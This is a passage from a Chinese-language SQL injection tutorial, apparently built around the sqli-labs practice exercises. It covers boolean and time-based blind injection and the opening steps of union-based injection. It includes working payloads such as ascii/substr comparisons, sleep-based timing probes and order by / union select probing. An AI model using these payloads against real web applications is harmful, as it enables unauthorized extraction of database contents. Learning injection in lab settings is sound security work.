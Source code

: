 **获取字段中的数据**

```
//判断id字段的第一行数据的第一个字符
id=1' and ascii(substr((select id from users limit  0,1),1,1))=100 --+
//判断id字段的第二行数据的第二个字符
id=1' and ascii(substr((select id from users limit 0,1),2,1))=100 --+
...
```

手工去盲注太过繁琐，不建议手工注入，可借助工具或者写脚本跑

#### 时间盲注

时间盲注也叫**延迟注入**。在页面没有回显数据，也没有可以充当判断条件的地方，也没有报错信息，就可以考虑尝试时间盲注。时间盲注就是将页面的反响时间作为判断依据，来注入出数据库的信息。

以Less-9为例，当我们以id=1' and sleep(5) --+ 进行注入，可以明显的感觉到页面返回响应的时间变长了，大概拉长了5秒左右，这说明构造的sleep(5)语句起作用了。我们可以把这个当作判断依据，配合if语句使用。

if(a,b,c) 如果a的值为true，则返回b的值，如果a的值为false，则返回c的值。

**获取数据库名**

```
//查询数据库名第一个字符
id=1' and if(ascii(substr(database(),1,1))= 115,sleep(5),0) --+
明显感受到页面延迟了几秒，说明数据库名字第一个字符是s。
//查询数据库名第二个字符
id=1' and if(ascii(substr(database(),2,1))= 101,sleep(5),0) --+
...
```

与盲注类似，后面就是爆破字符，再爆表名，字段名，具体数据。

不建议手注，建议编写脚本或使用工具



### union联合注入

**第一步**，测试注入点，一些小技巧：利用引号，and 1=1 ，or 1=1 等判断是字符型还是数字型

![image-20221122155607252](https://static.sechelper.com/img/2023/01/19/ae02739b6af1ed277bb0a55d5fb2f869.png)

正常返回判断是字符型



**第二步**，利用order by 查表得到到字段个数

![image-20221122160356671](https://static.sechelper.com/img/2023/01/19/07895e1931e169a079743920de16141d.png)

![image-20221122160410458](C:\Users\dong\Desktop\Books\sql注入\sql注入\image-20221122160410458.png)

查到3时正常返回但到4时报错说明当前表中只有三列



**第三步**，利用union select 1,2,3..判断回显位，如果有回显，找到回显位，回显位也就是回显页面有我们设置的1,2,3的位置

![image-20221122160538292](https://static.sechelper.com/img/2023/01/19/ea34318fc35954a76f6dd6eddb47871b.png)
